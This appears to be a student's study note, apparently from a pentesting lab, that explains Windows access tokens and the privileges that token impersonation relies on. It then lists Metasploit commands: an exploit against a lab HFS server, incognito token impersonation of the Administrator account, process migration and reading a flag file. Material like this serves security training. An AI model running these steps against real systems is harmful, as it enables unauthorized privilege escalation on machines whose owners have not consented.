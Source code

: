 ![image](https://github.com/user-attachments/assets/5c05e69a-84d8-4e3f-9bc2-d1c32fc74da0)
![image](https://github.com/user-attachments/assets/aa911d85-4fd1-4efe-ae6b-c0c797a2c06d)
![image](https://github.com/user-attachments/assets/ed81bba4-e9c8-4f9d-819d-93cd350fd291)


### Access Token Impersonation

Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS). A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed. Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token. Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token. An access token will typically be assigned one of the following security levels:
- Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
- Delegate-level tokens are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP. The process of impersonating access tokens to elevate privileges on a

system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available. The following are the privileges that are required for a successful impersonation attack:
- SeAssignPrimaryToken: This allows a user to impersonate tokens.
- SeCreateToken: This allows a user to create an arbitrary token with administrative privileges.
- SeImpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges.


### Practical Access Token Impersonation

- `service postgresql start && msfconsole`
- `use exploit/windows/http/rejetto_hfs_exec`
- `set RHOSTS 10.2.21.75`
- `exploit`
- `sysinfo`
- `pgrep explorer`
- `migrate 3240` --> Access denied
- `load incognito`
- `list_token -u` lists useraccounts accestokens
- `impersonate_token "ATTACKDEFENSE\Administrator"`
- `getuid` --> We have the permisions of ATTACKDEFENSE\Administrator
- `pgrep explorer`
- `migrate 3240` --> Now it worked
- `cat C:\\Users\\Administrator\\Desktop\\flag.txt`
